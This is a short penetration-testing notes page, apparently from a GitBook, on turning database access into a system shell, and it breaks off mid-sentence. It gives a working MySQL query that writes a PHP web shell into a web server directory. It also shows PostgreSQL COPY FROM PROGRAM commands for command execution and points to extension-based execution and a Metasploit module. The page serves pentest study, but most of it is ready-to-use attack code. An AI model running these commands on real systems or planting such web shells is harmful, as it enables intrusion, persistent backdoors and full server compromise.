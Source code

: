 ```yaml
---
description: You have a connection to a database. How can you get a shell from that?
---
```


# Get a Shell From DB Connection

### Write a Web Shell

Prerequisites:

* A web server that supports PHP or ASP is installed on the same server
* The database user has write permissions in a directory from where PHP or ASP can be executed through the web server

Many databases can write files to the local system. So if possible, write a web shell to the web server.

Mysql example:

```
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'
```

### Databases Support Command Execution

Some databases support command execution, so you can just use that. Usually you need the highest database privileges to do it, though.

Prerequisite:

* Connection to a database system that supports command execution
* May require certain privileges as the user you're connecting to

#### PostgreSQL Intended Command Execution

Prerequisites:
* Heightened privileges:
  * Database superuser
  * Or any user in the `pg_execute_server_program` group

First, the attacker needs to create a table to hold the system command's output.

```
> CREATE TABLE cmd_exec(cmd_output text);
```

Then, they can run the system command via the COPY TO/FROM PROGRAM function.

```
> COPY cmd_exec FROM PROGRAM 'id';
```

Run longer commands like this:

```
> COPY cmd_exec FROM PROGRAM 'touch /tmp/test';
```

#### PostgreSQL Command Execution Using Extensions

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions" %}

Prerequisites:
  * In **older** versions (9.x, 8.x), you must be able to **write to the `/tmp` directory**, and must be able to  **source UDF Shared Libraries** from there as well.
  * In **newer** versions (>=11, perhaps?), also requires **superadmin** privileges

Method:
* With postgres 8.x, use the [metasploit module](https://www.rapid7.com/db/modules/exploit/linux/postgres/postgres_payload/)
* With 9.x, you'll have to [compile the library](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions#compile-the-library)


### CVEs and Bypasses

Even if the database system doesn't officially support running commands a

